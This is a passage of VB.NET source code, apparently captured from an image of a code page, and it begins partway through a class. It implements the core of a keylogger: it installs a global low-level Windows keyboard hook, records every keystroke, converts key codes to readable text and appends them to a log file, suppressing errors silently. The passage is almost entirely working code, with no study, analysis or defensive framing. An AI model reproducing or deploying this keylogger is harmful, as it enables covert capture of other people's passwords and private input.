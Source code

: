 ```vb.net
        UnhookWindowsHookEx(HookID)
    End Sub

    Private Shared Function SetHook(ByVal proc As LowLevelKeyboardProc) As IntPtr
        Using curProcess As Process = Process.GetCurrentProcess()
            Using curModule As ProcessModule = curProcess.MainModule
                Return SetWindowsHookEx(WH_KEYBOARD_LL, proc,
                    GetModuleHandle(curModule.ModuleName), 0)
            End Using
        End Using
    End Function

    Private Shared Function HookCallback(
        ByVal nCode As Integer,
        ByVal wParam As IntPtr,
        ByVal lParam As IntPtr) As IntPtr

        If nCode >= 0 AndAlso wParam = WM_KEYDOWN Then
            Dim vkCode As Integer = Marshal.ReadInt32(lParam)

            Try
                Using writer As New StreamWriter(LogFilePath, True)
                    writer.Write(ConvertKeyCodeToChar(vkCode))
                End Using
            Catch
                ' Silent fail on write error
            End Try
        End If

        Return CallNextHookEx(HookID, nCode, wParam, lParam)
    End Function

    Private Shared Function ConvertKeyCodeToChar(ByVal keyCode As Integer) As String
        ' Handle special keys
        Select Case keyCode
            Case 8 : Return "[BACKSPACE]"
            Case 9 : Return "[TAB]"
            Case 13 : Return "[ENTER]" & Environment.NewLine
            Case 16, 17, 18 : Return "" ' Shift, Ctrl, Alt
            Case 20 : Return "[CAPSLOCK]"
            Case 32 : Return " "
            Case 46 : Return "[DEL]"
            Case Else
                ' Convert key code to character
                Dim keyChar As Char = ChrW(keyCode)
                If Char.IsLetterOrDigit(keyChar) OrElse Char.IsPunctuation(keyChar) OrElse Char.IsSymbol(keyChar) Then
                    Return keyChar.ToString()
                Else
                    Return $"[KEY_{keyCode}]"
                End If
        End Select
    End Function
End Class
```
